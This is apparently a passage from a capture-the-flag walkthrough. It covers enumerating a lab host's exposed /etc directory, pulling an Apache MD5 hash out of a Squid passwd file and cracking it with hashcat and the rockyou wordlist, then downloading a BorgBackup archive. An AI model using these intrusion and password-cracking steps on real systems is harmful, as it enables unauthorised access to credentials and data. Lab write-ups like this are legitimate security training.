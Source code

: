 **Key Findings:**

```
/admin (301) → http://10.201.113.2/admin/
/etc   (301) → http://10.201.113.2/etc/
```

### `/etc/` — Exposed Configuration Directory

Browsing revealed:

```
/etc/squid/passwd
```

**Content:**
```
music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.
```

→ **Apache `$apr1$` MD5 hash** (common in Squid, Apache, etc.)

---

## 🔐 Step 2: Hash Cracking

```bash
hashcat -m 1600 hash.txt /usr/share/wordlists/rockyou.txt
```

**Cracked:**
```
$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.:squidward
```

**Password:** `squidward`

---

## 📦 Step 3: Download & Extract Backup

In `/admin/`:

```
archive.tar
```

Downloaded and inspected:

```bash
file archive.tar
# tar archive
tar -tf archive.tar
# home/field/dev/final_archive
```

Inside was a **BorgBackup** repository:

```bash
borg list home/field/dev/final_archive
# Archive: music_archive
```
